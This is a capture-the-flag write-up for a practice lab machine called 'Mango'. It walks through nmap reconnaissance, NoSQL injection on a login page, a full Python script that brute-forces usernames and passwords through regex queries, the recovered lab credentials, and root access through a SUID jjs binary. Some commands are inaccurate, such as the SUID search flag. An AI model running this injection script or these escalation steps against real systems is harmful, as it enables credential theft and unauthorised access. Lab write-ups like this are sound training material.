








# Mango
Write-up for the Mango box. I am going to use the Red Diamond to exploit and become root on the box.


## Resources Used
* Parrot OS
* Python brute force script
* [Burpsuite](https://portswigger.net/burp)
* [GTFOBins](https://gtfobins.github.io/)
* [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
* [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection)
* [MongoDB Forums](https://jira.mongodb.org/browse/SERVER-3229)

## Key Vulnerability
* NoSQL Injection

## Red Diamond
1. ### Reconnaissance
#### Port Scan - NMAP
```
ports=$(nmap -p- --min-rate=1000 -T4 10.10.10.162 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)

```
```
nmap -p $ports -sV -sC 10.10.10.162 -oA initial
```
```
    Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-16 02:18 BST
Nmap scan report for 10.10.10.162
Host is up (0.040s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a8:8f:d9:6f:a6:e4:ee:56:e3:ef:54:54:6d:56:0c:f5 (RSA)
|   256 6a:1c:ba:89:1e:b0:57:2f:fe:63:e1:61:72:89:b4:cf (ECDSA)
|_  256 90:70:fb:6f:38:ae:dc:3b:0b:31:68:64:b0:4e:7d:c9 (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: 403 Forbidden
443/tcp open  ssl/http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Mango | Search Base
| ssl-cert: Subject: commonName=staging-order.mango.htb/organizationName=Mango Prv Ltd./stateOrProvinceName=None/countryName=IN
| Not valid before: 2019-09-27T14:21:19
|_Not valid after:  2020-09-26T14:21:19
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.97 seconds
```
#### Enumeration
From the nmap output, I see that this box is running a web server. HTTP seems to be blocking external access. HTTPS on the other hand doesn't. HTTPS gives us a page that looks strikingly similar to Google. However nothing on the page seemed to be functional.


Thinking I was wasting time, I was about to probe the SSH server when I noticed the certificate giving an invalid error. The nmap scan noted that there was a ssl certificate present with the name staging-order.mango.htb. Viewing the certificate properties confirmed that find.



The certificate's common name seemed to be a subdomain. Trying that domainin the browser only gave errors. To access a new subdomain, your machine's DNS must be able to resolve the domain name to an IP. Since this is a custom network, I'll have to get my machine to resolve the IP manually. To do so, I added `staging-order.mango.htb` to /etc/hosts (You may have to relaunch your browser for changes to take effect).
```
# Host addresses
127.0.0.1  localhost printerv2.quick.htb
127.0.1.1  parrot
10.10.10.162 staging-order.mango.htb mango.htb
```
Now I am able to access the domain, `http://staging-order.mango.htb` and see it brings me to a login page.


Looking at the source code and brute forcing directories did not yield any results. Even testing for SQL injection's and default credentials on the login page yielded no dice. It is important to note that sometimes a machine's name can be a clue to what is running on the server. For example, on the page I saw a photo of mangos. A web application with a login page usually requires some sort of database backed. So since normal SQL injections did not work and assuming there's a database, I came to the conclusion that there's likely a MongoDB backend on the server. A quick google search indicated that SQL injections for MongoDB follow a different [syntax](https://book.hacktricks.xyz/pentesting-web/nosql-injection) (these injections are known as NOSQL injections). To verify this vulnerability, I utilize [Burp Suite](https://portswigger.net/burp/documentation/desktop/penetration-testing) and its repeater tool to see how the server responds to different payloads.

From the source code, I saw that the server uses the username and password parameters to send data to be validated. Starting Burp I proceed to intercept the requests after I submit a normal test case. I received a 200 status code which is typical of any web server login action (success or fail).


However once I throw in a NOSQL injection, I received a 302 status. This redirection indicated I got the server to do something it was not meant to do, confirming that a NOSQL injection is the vulnerability.


2. ### Weaponization
From Burp, I saw that the vulnerability was triggered when the username and password parameters were changed to:
```
username[$regex] and password[$ne]
```
Now with a SQL/NOSQL injection, I can do a lot of things. i am able to create data, delete data, or leak information from the database. Here I'd like to leak some credentials that I can use for SSH access. Looking at the payload `^a.*`, I see that the query checked for users that began with the letter a. I did not find the option of doing this manually very appealing, so I decided to script this exploit. I utilized python as the language. In a nutshell, the script will iterate over every letter and symbol (excluding SQL-protected symbols) and build a username and password based on the 302 status codes. See the full exploit below.
```python
import string
import requests

def query(url, data):
    return requests.post(url, data=data, allow_redirects=False)

def enumerate_users(url, letters):
    print("Brute forcing users.....")
    for char in characters:
        param = {'username' + '[$regex]' : "^" + char + ".*", 'password' + '[$ne]' : '1'}
        post = query(url, param)
        if post.status_code != 302:
            continue
        bruteForce = True
        username = char
        while bruteForce:
            bruteForce = False
            for let in letters:
                payload = username + let
                param = {'username' + '[$regex]' : "^" + payload + ".*", 'password' + '[$ne]' : '1' + 'login'}
                post = query(url, param)
                if post.status_code == 302:
                    username = payload
                    bruteForce = True
        print(f'Found potential username: {username}')

def enumerate_passwords(url, letters):
    print("Brute forcing passwords.....")
    for char in letters:
        param = {'password' + '[$regex]' : "^" + char + ".*", 'username' + '[$ne]' : '1' + 'login'}
        post = query(url, param)
        if post.status_code != 302:
            continue
        bruteForce = True
        password = char
        while bruteForce:
            bruteForce = False
            for let in letters:
                payload = password + let
                param = {'password' + '[$regex]' : "^" + payload + ".*", 'username' + '[$ne]' : '1'}
                post = query(url, param)
                if post.status_code == 302:
                    password = payload
                    bruteForce = True
        print(f'Found potential password: {password}')

if __name__ == "__main__":
    characters = string.printable
    for char in characters:
        if char in "$^&*|.+\?":
            characters = characters.replace(char, '')
    enumerate_users("http://staging-order.mango.htb/", characters)
    enumerate_passwords("http://staging-order.mango.htb/", characters)
```
3. ### Exploitation
The script took a few minutes to execute, but I was able to retrieve the following users:
```
admin
mango
```
and the following passwords:
```
h3mXK8RhU~f{]f5H
t9KcS3>!0B#2
```


I attempted to use the admin username with the first password on both the web server and SSH, however it failed. I tried the second password and it was successful on the web interface but not SSH. the web interface was a rabbit hole as it was not even functional.


Next I tried the mango user with the remaining password, and I was able to get a ssh session as the mango user.


#### Credentials
```
mango:h3mXK8RhU~f{]f5H
admin:t9KcS3>!0B#2
```


4. ### Privilege Escalation
Unfortunately, there is no user flag mango's home directory. Looking to see if there were other users, i found that admin was a valid user on the machine. I also noticed that the flag was in admin's directory, and only admin could read it. Even though the password I found only worked on the web interface, I tried to change to the admin user with it and was successful. I was able to read the flag then.


Now onto root. This machine is running:
```
Linux mango 4.15.0-64-generic #73-Ubuntu SMP Thu Sep 12 13:16:13 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
```
from `uname -a`, however I will not bother trying a kernel exploit here. While I can, I do not want to go through the hassle of compiling exploits when I know there is another way. I tested for any sudo privileges however came up empty. Next I looked for processes running as root with `ps aux | grep root`, once again nothing stood out. Lastly I looked for root files I could potentially hijack or who had SUID permissions. I did not find any hijackable files, but found a few with SUID permissions. I ran the following command and found these files:
```
find . -xdev -perm /400
```
```
./usr/bin/newuidmap
./usr/bin/newgrp
./usr/bin/gpasswd
./usr/bin/passwd
./usr/bin/newgidmap
./usr/bin/run-mailcap
./usr/bin/chfn
./usr/bin/chsh
./usr/bin/sudo
./usr/bin/at
./usr/bin/traceroute6.iputils
./usr/bin/pkexec
./usr/lib/dbus-1.0/dbus-daemon-launch-helper
./usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
./usr/lib/policykit-1/polkit-agent-helper-1
./usr/lib/eject/dmcrypt-get-device
./usr/lib/jvm/java-11-openjdk-amd64/bin/jjs
./usr/lib/openssh/ssh-keysign
./usr/lib/snapd/snap-confine
```
Researching these binaries for vulnerabilities I found that jjs was vulnerable to a [GTFOBin](https://gtfobins.github.io/gtfobins/jjs/). I tried the shell vulnerability to get a root shell, but ended up crashing my server. Realizing that jjs will run as root and has a file read vulnerability, I can simply use it to read the root key file!
